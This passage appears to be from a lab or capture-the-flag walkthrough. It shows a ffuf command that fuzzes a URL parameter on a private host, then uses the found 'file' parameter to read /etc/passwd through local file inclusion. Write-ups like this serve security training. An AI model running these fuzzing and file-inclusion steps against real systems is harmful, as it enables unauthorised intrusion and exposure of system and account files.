


3.2 Fuzzing
You need to figure out what the paramater on the URL
http://192.168.12.28/file.php?FUZZ=/etc/passwd.1. Run on your Kali Machine the following command.
$ffuf -c -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://192.168.12.28/file.php?FUZZ=/etc/passwd -fs 238

The parameter “file” allows the local file inclusion.
2. Navigate to
http://192.168.12.28/file.php?file=/etc/passwd. 
You can see the “/etc/passwd” file content.